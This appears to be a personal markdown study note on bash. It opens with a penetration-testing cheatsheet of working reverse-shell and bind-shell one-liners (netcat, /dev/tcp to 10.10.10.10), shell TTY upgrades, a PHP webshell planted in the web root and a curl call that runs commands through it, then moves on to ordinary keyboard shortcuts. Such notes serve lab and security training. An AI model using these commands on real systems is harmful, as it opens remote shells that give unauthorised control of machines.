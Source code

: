 # 🤖 bash

Tags: #🤖
Related to: 
See also: 
Previous: [[PROGRAMMING]], [[Getting Started]]

## Description

## Cheatsheet

| Command | Description |
|-|-|
| `nc -lvnp 1234` | Start a `nc` listener on a local port |
| `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f \| /bin/sh -i 2>&1 \| nc 10.10.10.10 1234 >/tmp/f` | Another command to send a reverse shell from the remote server |
| `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f \| /bin/bash -i 2>&1 \| nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server |
| `nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server |
| `python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1) |
| `ctrl+z` then `stty raw -echo` then `fg` then `enter` twice | Upgrade shell TTY (2) |
| `echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` | Create a webshell php file |
| `curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell |

#### Auto-Complete

`[TAB]` - Initiates auto-complete. This will suggest to us different options based on the `STDIN` we provide. These can be specific suggestions like directories in our current working environment, commands starting with the same number of characters we already typed, or options.

#### Cursor Movement

`[CTRL] + A` - Move the cursor to the `beginning` of the current line.

`[CTRL] + E` - Move the cursor to the `end` of the current line.

`[CTRL] + [←]` / `[→]` - Jump at the beginning of the current/previous word.

`[ALT] + B` / `F` - Jump backward/forward one word.

#### Erase The Current Line

`[CTRL] + U` - Erase everything from the current position of the cursor to the `beginning` of the line.

`[Ctrl] + K` - Erase everything from the current position of the cursor to the `end` of the line.


[^1]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261